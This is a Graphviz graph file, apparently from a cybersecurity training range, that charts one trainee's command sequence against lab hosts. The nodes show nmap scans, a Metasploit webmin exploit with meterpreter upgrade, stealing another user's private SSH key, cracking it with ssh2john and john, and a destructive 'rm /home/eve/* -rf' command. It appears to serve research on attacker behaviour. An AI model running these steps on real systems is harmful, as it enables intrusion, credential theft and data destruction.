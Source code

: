 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="nmap -p- 172.18.1.5 V0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 V0 "]
	5 [label="msfconsole M2 "]
	6 [label="help U"]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	13 [label="show options V5 "]
	14 [label="exploit M8 "]
	15 [label="ip U"]
	16 [label="ip address U"]
	17 [label="set LHOST 10.1.135.83 V6 "]
	18 [label="exploit V8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	21 [label="sessions -l U"]
	22 [label="show options V5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run V8 "]
	25 [label="sessions 2 U"]
	26 [label="sessions - U"]
	27 [label="sessions 2 U"]
	28 [label="search webmin V3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit V8 "]
	31 [label="ping rm /home/eve/* -rf U"]
	32 [label="logout U"]
	33 [label="ping 10.1.18.22 U"]
	34 [label="ping 10.1.18.22 U"]
	35 [label="exit U"]
	36 [label="show options V5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	46 [label="sessions 5 U"]
	47 [label="ssh eve@10.1.17.4 V16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa V12 "]
	53 [label="ls A10 "]
	54 [label="vim key U"]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa V16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa V16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' V16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key V16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	65 [label="cd Desktop/ U"]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	68 [label="cd .. U"]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	71 [label="cd /usr/share U"]
	72 [label="ls A10 "]
	73 [label="cd wordlists/ U"]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="exit U"]
	78 [label="ls A10 "]
	79 [label="cd top-secret/ U"]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
